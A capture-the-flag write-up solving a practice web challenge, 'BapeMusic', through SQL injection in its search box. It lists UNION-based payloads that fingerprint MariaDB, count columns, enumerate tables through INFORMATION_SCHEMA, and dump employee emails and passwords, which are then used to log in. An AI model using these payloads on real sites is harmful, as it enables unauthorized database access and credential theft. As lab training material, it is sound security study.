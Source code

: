 # Challenges:

Log into BapeMusic to get the something...

FLAG Format: EHC{XXX}

# Solution:

They give me a nice looking website with 3 function Search, Sign up, Log in.

After sign up they told the sign up function not avalible, the Log in can't exploit anything because they filter all the symbol for sql injection. We only have last option is the search. I enter some "Entry point dection" symbol and found something at `"`:

![image](https://github.com/Katsumi1012/CTF/assets/90083485/6b72b69c-4671-4912-9899-4bc003ed43d1)

MariaDB is very usefull and try a round with basic query and when trying this query `" UNION SELECT @@version; -- -`, i got:

![image](https://github.com/Katsumi1012/CTF/assets/90083485/dc6a86eb-6b0d-46c9-bc43-6ffd67628c58)

Now, i know what i'm going to to. First check the number of columns and an error at column 5 so it has 4 columns `" ODER BY 5; -- -`

![image](https://github.com/Katsumi1012/CTF/assets/90083485/a00e51f2-c92e-43a0-94a6-872b6e9c06f4)

Get database name: `" UNION SELECT @@version,database(),3,4; -- -`

![image](https://github.com/Katsumi1012/CTF/assets/90083485/d82360c5-807a-4c56-b913-ad788c4a23fa)

Discover the `sqlinjection` database: `" UNION select TABLE_NAME,TABLE_SCHEMA,3,4 from INFORMATION_SCHEMA.TABLES where table_schema='sqlinjection'-- -`

![image](https://github.com/Katsumi1012/CTF/assets/90083485/e3be976e-324c-481a-87d9-4bf6c8b94625)

Discorver the `employee` table: `" UNION select COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.COLUMNS where table_name='employee'-- -` and we saw some interesting column:

![image](https://github.com/Katsumi1012/CTF/assets/90083485/327a816c-9690-44aa-85b0-0ac22b6adc54)

Get in there to see data: `" UNION select Email, Password,3,4 from employee -- -`

![image](https://github.com/Katsumi1012/CTF/assets/90083485/a272a556-e2b5-4cce-94b7-284c5b40a1ca)

Siuuuuu. We got the username and password. Now try to login

![1st](https://github.com/Katsumi1012/CTF/assets/90083485/4348cbd7-a9de-4a4d-9891-0df313740a2d)

Get the flag 🚩

# Enjoy 🤡
